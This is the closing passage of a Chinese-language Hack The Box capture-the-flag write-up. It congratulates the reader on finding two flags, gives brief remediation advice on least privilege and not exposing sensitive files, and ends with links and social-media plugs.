

恭喜你。你找到了两面旗。

## ******补救******

*   将最低特权原则应用于您的所有系统和服务
*   敏感文件或目录不应托管在服务器上/或公开提供。快速侦察将允许攻击者枚举文件夹/文件并访问它们

请不要犹豫提出问题或与您的朋友分享:)

更多文章可以看 ********保持冷静黑盒子******** [这里](https://www.freecodecamp.org/news/search/?query=keep%20calm%20and%20hack%20the%20box)。

你可以在 Twitter 上关注我，也可以在 T2 的 LinkedIn 上关注我。

还有别忘了#****************GetSecure****************，#****************be secure****************&#

